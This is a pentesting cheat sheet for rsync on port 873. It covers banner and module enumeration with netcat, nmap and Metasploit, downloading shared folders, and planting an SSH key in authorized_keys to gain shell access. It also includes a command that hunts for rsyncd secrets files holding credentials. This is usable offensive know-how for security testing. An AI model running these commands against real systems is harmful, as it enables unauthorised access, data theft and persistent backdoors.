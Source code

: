 # Pentesting Rsync



## Rsync port 873

* Basic information
* rsync is a utility for efficiently transferring and synchronizing files between a computer and an external hard drive and across networked computers by comparing the modification timesand sizes of files.

```
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy        	
NAS_Public     	
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```

* Enumerate shared folders
* An rsync module is essentially a directory share. These modules can optionally be protected by a password.
* This options lists the available modules and, optionally, determines if the module requires a password to access:

```
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

#Example using IPv6 and a different port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```

* Manual Rsync
* List a shared folder

```
rsync -av --list-only rsync:/10.10.232.5/shared_name
```

* Copy all files to your local machine via the following command:

```
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```

* If you have credentials you can list/download a shared name using (the password will be prompted):

```
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```

* You could also upload some content using rsync (for example, in this case we can upload an authorized\_keys file to obtain access to the box):

```
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
#full command syntax below
rsync -av id_rsa.pub rsync://rsync-connect@10.10.63.208/files/sys-internal/.ssh/authorized_keys
```

* Find the rsyncd configuration file:

```
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```

* Inside the config file sometimes you could find the parameter `secrets file = /path/to/file` and this file could contains usernames and passwords allowed to authenticate to rsyncd.
